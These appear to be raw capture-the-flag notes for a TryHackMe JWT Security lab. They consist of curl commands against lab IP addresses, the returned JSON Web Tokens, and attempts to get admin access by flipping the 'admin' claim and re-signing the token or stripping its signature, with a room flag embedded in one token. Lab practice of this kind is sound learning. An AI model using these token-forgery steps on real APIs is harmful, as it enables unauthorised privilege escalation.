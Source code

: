 [JWT Security](https://tryhackme.com/room/jwtsecurity)

<img width="1918" height="1012" alt="image" src="https://github.com/user-attachments/assets/5f381edf-c8e4-4f61-9c5b-afd80d474ecb" />

curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.186.79/api/v1.0/example1
{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJwYXNzd29yZCI6InBhc3N3b3JkMSIsImFkbWluIjowLCJmbGFnIjoiVEhNezljYzAzOWNjLWQ4NWYtNDVkMS1hYzNiLTgxOGM4MzgzYTU2MH0ifQ.TkIH_A1zu1mu-zu6_9w_R4FUlYadkyjmXWyD5sqWd5U"
}

 curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password2" }' http://10.10.186.79/api/v1.0/example2
{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4"
}

curl -H 'Authorization: Bearer [JWT Token]' http://10.10.186.79/api/v1.0/example2?username=user
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4' http://10.10.186.79/api/v1.0/example2?username=user
{
  "message": "Welcome user, you are not an admin"
}

{
  "username": "user",
  "admin": 0
}
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MSwiaWF0IjoxNzUyODYzMzU5fQ.evltk3a-4hjOxNiY-YuzLZt3x45eYceAWLy-9z6Jqfo
{
  "username": "user",
  "admin": 1
}
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.9SCUBKr8YVDh0y5dClP7JZsjWpHPOojJ3ywGvhqU3v8
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.9SCUBKr8YVDh0y5dClP7JZsjWpHPOojJ3ywGvhqU3v8' http://10.10.186.79/api/v1.0/example2?username=user

curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password2" }' http://10.10.145.94/api/v1.0/example2
{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4"
}
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4' http://10.10.145.94/api/v1.0/example2?username=user

curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.UWddiXNn-PSpe7pypTWtSRZJi1wr2M5cpr_8uWISMS4' http://10.10.145.94/api/v1.0/example2?username=user
{
  "message": "Welcome user, you are not an admin"
}
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.' http://10.10.145.94/api/v1.0/example2?username=user
{
  "message": "Welcome user, you are not an admin"
}
